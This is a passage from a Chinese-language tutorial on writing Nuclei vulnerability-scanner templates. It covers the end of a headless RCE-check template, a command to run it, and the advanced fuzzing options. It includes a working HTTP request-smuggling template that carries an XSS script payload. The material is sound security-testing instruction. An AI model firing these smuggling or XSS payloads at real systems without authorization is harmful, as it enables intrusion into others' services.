 ```yaml
      - action: click
        args:
          by: xpath
          xpath: /html/body/form/p/input[1]
      - action: waitload
 
    matchers:
      - type: word
        part: interactsh_protocol # Confirms the HTTP Interaction 
        words:
          - "http"

```

模板应该使用CLI上的-headless选项运行，如下所示：

```bash
nuclei -u https://10.20.30.40 -t mmwiki-rce-headless.yaml -headless
```

请务必记住使用-headless标志！如果没有这个标志，Nuclei仍然会运行模板，但你可能不会得到任何发现，或者没有任何迹象表明实际上并没有向目标发送任何内容。

## 高级模糊测试

之前我们简单提到了在HTTP模式下对应用程序进行模糊测试。Nuclei模板支持一些更高级的模糊测试功能。在这里我们将对其进行概述。

这些功能包括：

- 不安全请求
- 流水线
- 连接池
- 竞争条件

### 不安全请求

Nuclei通过raw http库支持畸形的HTTP请求，可用于测试诸如HTTP请求走私和Host头注入等问题。要使用不安全HTTP模式，需要在请求块中设置`unsafe:true`选项。以下是一个简短的HTTP请求走私示例，演示了一个不安全的请求。

```yaml
requests:
  - raw:
    - |+
        POST / HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 150
        Transfer-Encoding: chunked

        0

        GET /post?postId=5 HTTP/1.1
        User-Agent: a"/><script>alert(1)</script>
        Content-Type: application/x-www-form-urlencoded
        Content-Length: 5

        x=1
    - |+
        GET /post?postId=5 HTTP/1.1
        Host: {{Hostname}}

    unsafe: true # Enables rawhttp client
    matchers:
      - type: dsl
        dsl:
          - 'contains(body, "<script>alert(1)</script>")'

```